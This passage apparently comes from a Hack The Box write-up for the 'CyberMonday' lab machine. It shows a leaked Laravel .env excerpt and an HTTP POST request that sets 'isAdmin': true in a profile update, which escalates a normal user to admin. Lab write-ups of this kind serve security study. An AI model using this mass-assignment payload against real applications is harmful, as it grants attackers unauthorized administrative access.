 ~~~text
APP_NAME=CyberMonday
APP_ENV=local
APP_KEY=base64:EX3zUxJkzEAY2xM4pbOfYMJus+bjx6V25Wnas+rFMzA=
APP_DEBUG=true
APP_URL=http://cybermonday.htb
...

REDIS_HOST=redis
REDIS_PASSWORD=
REDIS_PORT=6379
REDIS_PREFIX=laravel_session:
CACHE_PREFIX=
...
~~~
{:file=".env" .nolineno}

The source appears to use the default structure of Laravel projects defined in [Laravel's documentation](https://laravel.com/docs/10.x/structure). According to this standard, the core user-defined code should be stored in the `app`{:.filepath} directory.


### Broken Access Control

A single user property called `isAdmin`, referenced in `app/Http/Middleware/AuthenticateAdmin.php`{:.filepath}, dictates whether a session is granted access to administrative routes. After some testing on the endpoints available to standard users, we found that the property could be altered when updating our profile with a JSON request body.

~~~http
POST /home/update HTTP/1.1
Host: cybermonday.htb
Content-Length: 120
Accept: */*
Cookie: XSRF-TOKEN=...; cybermonday_session=...
Content-Type: application/json;charset=UTF-8

{
  "_token":"...",
  "username":"HTB-zVYmCf",
  "email":"zVYmCf@htb.local",
  "isAdmin": true
}
~~~
{:.nolineno}

We now have access to the admin dashboard at [/dashboard](http://cybermonday.htb/dashboard) as well as the "Products" and "Changelog" pages referenced on the dashboard.

![Admin dashboard](web-admin-dashboard.png)
_Admin dashboard on cybermonday.htb_

The changelog in particular includes some interesting information regarding changes made to the application and references a webhook used to create registration logs at <http://webhooks-api-beta.cybermonday.htb/webhooks/fda96d32-e8c8-4301-8fb3-c821a316cf77>.
